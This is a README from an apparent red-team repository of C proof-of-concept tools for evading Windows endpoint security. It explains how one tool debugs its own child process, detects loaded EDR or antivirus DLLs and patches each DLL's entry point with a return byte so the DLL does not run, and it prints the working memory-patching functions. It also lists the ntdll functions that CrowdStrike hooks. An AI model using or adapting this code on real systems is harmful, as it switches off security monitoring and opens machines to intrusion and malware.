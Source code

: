 # RedTeamCCode
Red Team C code repo

# PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON.c

Is a proof-of-concept for the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` trick it will enforce the policy then spawn itself again the respawned process have the policy enforced allowing you run "malicious" code with the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` been set.

# byebyedll.c

Is a proof-of-concept that enforce the `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON` policy and also debug the child process (itself) and monitor Dlls that are loaded using Windows debugger APIs. It detect Dlls based on the path and patch it. The idea is to prevent EDR and AV Dlls loaded into your process from executing properly. This is a POC the blacklisted Dlls is set to `user32.dll`.  

The event is monitored using the `LOAD_DLL_DEBUG_EVENT` event. 

The DLL location is then retrieved using `event.u.UnloadDll.lpBaseOfDll`

The code is patched using the following functions:

```
VOID *GetEntryPointOffset(CHAR *start, DWORD dwSize, HANDLE hProc) {

    CHAR* mem = GlobalAlloc(GPTR, dwSize);
    DWORD dwBytesRead = 0;

    ReadProcessMemory(hProc, start, mem, dwSize, &dwBytesRead);

    DWORD dwBaseDLLInitializeOffset = *((DWORD*)mem + (0x120 / 4));

#ifdef DEBUG
    printf("dwBaseDLLInitializeOffset offset 0x%x\n", dwBaseDLLInitializeOffset);
#endif

    VOID *dwBaseDLLInitialize = (VOID*)start + dwBaseDLLInitializeOffset;

#ifdef DEBUG
    printf("dwBaseDLLInitialize offset 0x%p\n", dwBaseDLLInitialize);
#endif

    GlobalFree(mem);
    return dwBaseDLLInitialize;
}

VOID ModifyMem(CHAR *start, DWORD dwSize, HANDLE hProc) {
#ifdef DEBUG
    printf("Cleaning HANDLE 0x%p 0x%p length: %d\n", hProc, start, dwSize);
#endif
    VOID* EntryPoint = GetEntryPointOffset(start, dwSize, hProc);
    DWORD dwOut = 0;
    DWORD dwOld = 0;

#ifdef DEBUG
    printf("EntryPoint at 0x%p\n", EntryPoint);
#endif

    VirtualProtectEx(hProc, EntryPoint, 1, PAGE_READWRITE, &dwOld);
    WriteProcessMemory(hProc, EntryPoint, "\xc3", 1, &dwOut);
#ifdef DEBUG
    printf("Size of bytes written: %d\n", dwOut);
#endif
}
```

Verbose messages can be removed before the code is compiled by setting `DEBUG` as `FALSE`.

# CrowdStrike hooked ntdll.dll APIs

```
C:\Users\dev\Desktop>hook_finder_64.exe C:\Windows\System32\ntdll.dll
Loading C:\Windows\System32\ntdll.dll
------------------------------------------
BASE                    0x00007FFAE0030000      MZÉ
PE                      0x00007FFAE00300E8      PE
ExportTableOffset       0x00007FFAE01812A0
OffsetNameTable         0x00007FFAE01838C0
Function Counts         0x97e (2430)
------------------------------------------
NtAllocateVirtualMemory is hooked
NtAllocateVirtualMemoryEx is hooked
NtDeviceIoControlFile is hooked
NtGetContextThread is hooked
NtMapViewOfSection is hooked
NtMapViewOfSectionEx is hooked
NtProtectVirtualMemory is hooked
NtQueryInformationThread is hooked
NtQueueApcThread is hooked
NtQueueApcThreadEx is hooked
NtReadVirtualMemory is hooked
NtResumeThread is hooked
NtSetContextThread is hooked
NtSetInformationProcess is hooked
NtSetInformationThread is hooked
NtSuspendThread is hooked
NtUnmapViewOfSection is hooked
NtUnmapViewOfSectionEx is hooked
NtWriteVirtualMemory is hooked
ZwAllocateVirtualMemory is hooked
ZwAllocateVirtualMemoryEx is hooked
ZwDeviceIoControlFile is hooked
ZwGetContextThread is hooked
ZwMapViewOfSection is hooked
ZwMapViewOfSectionEx is hooked
ZwProtectVirtualMemory is hooked
ZwQueryInformationThread is hooked
ZwQueueApcThread is hooked
ZwQueueApcThreadEx is hooked
ZwReadVirtualMemory is hooked
ZwResumeThread is hooked
ZwSetContextThread is hooked
ZwSetInformationProcess is hooked
ZwSetInformationThread is hooked
ZwSuspendThread is hooked
ZwUnmapViewOfSection is hooked
ZwUnmapViewOfSectionEx is hooked
ZwWriteVirtualMemory is hooked
------------------------------------------
Completed
```

# Credit 
Mr.Un1k0d3r RingZer0 Team
